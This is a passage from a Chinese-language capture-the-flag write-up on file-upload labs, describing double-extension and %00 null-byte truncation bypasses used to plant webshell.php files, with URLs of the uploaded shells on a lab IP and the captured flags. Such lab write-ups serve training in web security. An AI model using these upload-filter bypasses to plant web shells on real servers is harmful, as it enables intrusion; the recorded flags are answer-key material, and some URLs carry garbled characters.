 ```bash
http://59.63.200.79:8016/Pass-09/upload//webshell.php.

# flag_%#B_SfdG.txt : zkaq{1+U=Tl=%AKS-juZ5}
```

## 10 双写文件后缀绕过

代码删除了后缀名中的黑名单字段。 **但只执行了一次**， 没有进行多次校验。
利用逻辑与 **点空点** 相似。

![](https://nc0.cdn.zkaq.cn/md/8461/c95ebdb2f1945216e084fd81ec41d901_95051.png)

```bash
http://59.63.200.79:8016/Pass-10/upload//webshell.php

# flag_Wzs%7OQt.txt : zkaq{7aYaRs8IN+9pP=rx}
```

## 11 `%00` 截断绕过

`%00` 阶段是 php 低版本 5.3.x 中的一个漏洞。 当 PHP 在 **URL** 中遇到 **%00** 时， 会认为语句结束而抛弃后面的语句。


![](https://nc0.cdn.zkaq.cn/md/8461/fffa81ad849ff1b566ae69e5f8231c2b_83169.png)


```bash
http://59.63.200.79:8016/upload/webshell.php%EF%BF%BD/2520201222235046.jpg

# 可利用
http://59.63.200.79:8016/upload/webshell.php

# flag_bNiqD%LB.txt : zkaq{E9JvKGkwMNLDpZRm}
```

## 12. %00截断绕过(二)

当 **存储路径** 不在 URL 中时， 需要使用 二进制 **00** 阶段

**1. 篡改上传路径， 并多写一个字符 a**

![](https://nc0.cdn.zkaq.cn/md/8461/9779a352328211cc4896ed99b2002841_40928.png)

**2. 使用 hex 工具，将 a 修改为 00**

![](https://nc0.cdn.zkaq.cn/md/8461/a8a9ac738678833aff0384a4c2a7160d_19475.png)

```bash
http://59.63.200.79:8016/upload/webshell.php%EF%BF%BD/3820201222235447.jpg
# 可利用
http://59.63.200.79:8016/upload/webshell.php

# flag_UZ3F-eeb.txt : zkaq{hx5JQH@+OkI_5Fiv}
```
